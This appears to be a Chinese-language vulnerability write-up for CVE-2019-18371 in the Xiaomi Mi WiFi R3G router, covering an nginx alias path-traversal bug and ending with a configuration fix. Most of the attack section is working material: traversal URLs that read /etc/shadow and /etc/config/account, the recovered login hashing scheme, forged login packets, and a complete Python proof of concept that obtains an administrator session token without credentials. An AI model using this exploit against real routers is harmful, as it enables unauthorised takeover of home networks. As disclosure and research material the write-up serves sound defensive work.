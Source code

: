 # (CVE-2019-18371)Xiaomi Mi WiFi R3G 任意文件读取漏洞

## 一、漏洞简介

Xiaomi Mi WiFi R3G是中国小米科技（Xiaomi）公司的一款3G路由器。 Xiaomi Mi WiFi R3G 2.28.23-stable之前版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

## 二、漏洞影响

Xiaomi Mi WiFi R3G 2.28.23-stable之前版本

## 三、复现过程

#### 小米路由器的nginx配置文件错误，导致目录穿越漏洞，实现任意文件读取（无需登录）

nginx配置不当可导致目录穿越漏洞，

```
location /xxx {
  alias /abc/;
}
```

可通过访问`http://domain.cn/xxx../etc/passwd`实现目录穿越访问上级目录及其子目录文件。

在小米路由器的文件`/etc/sysapihttpd/sysapihttpd.conf`中，存在

```
location /api-third-party/download/extdisks {
	alias /extdisks/;
}
```

故可以任意文件读取根目录下的所有文件，而且是root权限，如访问`http://192.168.31.1/api-third-party/download/extdisks../etc/shadow`

[![image-20200904224803971](.resource/%EF%BC%88CVE-2019-18371%EF%BC%89%20Xiaomi%20Mi%20WiFi%20R3G%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20200904224803971.png)](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904224803971.png)

[image-20200904224803971](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904224803971.png)



类似的问题，存在多处如

```
location /backup/log {
	alias /tmp/syslogbackup/;
}

location /api-third-party/download/public {
	alias /userdisk/data/;
}
location /api-third-party/download/private {
	alias /userdisk/appdata/;
}
```

#### 通过任意文件读取，登录路由器后台

不是明文存储密码，进行一定分析。关注两个过程，一是登录时前端js生成http post请求参数过程，二是验证用户登陆的后端过程。

登录时前端js生成http post请求参数过程

```
var Encrypt = {
    key: 'a2ffa5c9be07488bbb04a3a47d3c5f6a',
    iv: '64175472480004614961023454661220',
    nonce: null,
    init: function(){
        var nonce = this.nonceCreat();
        this.nonce = nonce;
        return this.nonce;
    },
    nonceCreat: function(){
        var type = 0;
        // 自己的mac地址
        var deviceId = '<%=mac%>';
        var time = Math.floor(new Date().getTime() / 1000);
        var random = Math.floor(Math.random() * 10000);
        return [type, deviceId, time, random].join('_');
    },
    oldPwd : function(pwd){ // oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
        return CryptoJS.SHA1(this.nonce + CryptoJS.SHA1(pwd + this.key).toString()).toString();
    },
  //...
};
```

可知`oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))`，登陆请求包为

```
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
Host: 192.168.31.1

username=admin&password=c9e62da7b8a0b7a4918c5a90912ba81a9717f9ab&logtype=2&nonce=0_mac地址_时间戳_5248
```

验证用户登陆的后端过程

调用`XQSecureUtil.checkUser`函数

```
function checkUser(user, nonce, encStr)
    -- 从xiaoqiang 配置文件中读取信息
    local password = XQPreference.get(user, nil, "account")
    if password and not XQFunction.isStrNil(encStr) and not XQFunction.isStrNil(nonce) then
        if XQCryptoUtil.sha1(nonce..password) == encStr then
            return true
        end
    end
    XQLog.log(4, (luci.http.getenv("REMOTE_ADDR") or "").." Authentication failed", nonce, password, encStr)
    return false
end
```

跟进`XQPreference.get`函数易知道是从`/etc/config/account`文件中读取某个字符串，这里称它为`accountStr`。

`checkUser`函数判断等式为(encStr为参数oldPwd)

```
sha1(nonce + sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
==
sha1(nonce + accountStr)
```

则

```
accountStr == sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a')
```

故，只需要读取`/etc/config/account`得到`accountStr`即可构造如下数据包登陆

```
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
Host: 192.168.31.1

username=admin&password=sha1(nonce + account中保存的字符串)&logtype=2&nonce=0_mac地址_时间戳_5248
```

实现任意登陆poc

arbitrary_file_read_vulnerability.py

```
import os
import re
import time
import base64
import random
import hashlib
import requests
from Crypto.Cipher import AES

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

def get_mac():
	## get mac
	r0 = requests.get("http://192.168.31.1/cgi-bin/luci/web", proxies=proxies)
	mac = re.findall(r'deviceId = \'(.*?)\'', r0.text)[0]
	# print(mac)	
	return mac

def get_account_str():
	## read /etc/config/account
	r1 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../etc/config/account", proxies=proxies)
	print(r1.text)
	account_str = re.findall(r'admin\'? \'(.*)\'', r1.text)[0]
	return account_str

def create_nonce(mac):
	type_ = 0
	deviceId = mac
	time_ = int(time.time())
	rand = random.randint(0,10000)
	return "%d_%s_%d_%d"%(type_, deviceId, time_, rand)

def calc_password(nonce, account_str):
	m = hashlib.sha1()
	m.update((nonce + account_str).encode('utf-8'))
	return m.hexdigest()

mac = get_mac()
account_str = get_account_str()
## login, get stok
nonce = create_nonce(mac)
password = calc_password(nonce, account_str)
data = "username=admin&password={password}&logtype=2&nonce={nonce}".format(password=password,nonce=nonce)
r2 = requests.post("http://192.168.31.1/cgi-bin/luci/api/xqsystem/login", 
	data = data, 
	headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0",
		"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"},
	proxies=proxies)
# print(r2.text)
stok = re.findall(r'"token":"(.*?)"',r2.text)[0]
print("stok="+stok)
```

> 可以获取到登录的stok

[![image-20200904234409100](.resource/%EF%BC%88CVE-2019-18371%EF%BC%89%20Xiaomi%20Mi%20WiFi%20R3G%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20200904234409100.png)](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904234409100.png)

[image-20200904234409100](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904234409100.png)



## 修复方案

## 任意文件读取

将`/etc/sysapihttpd/sysapihttpd.conf`中的形如以下形式修改为

```
location /xxx {
  alias /abc/;
}
```

修改为

```
location /xxx/ {
  alias /abc/;
}
```

## 参考链接

> https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md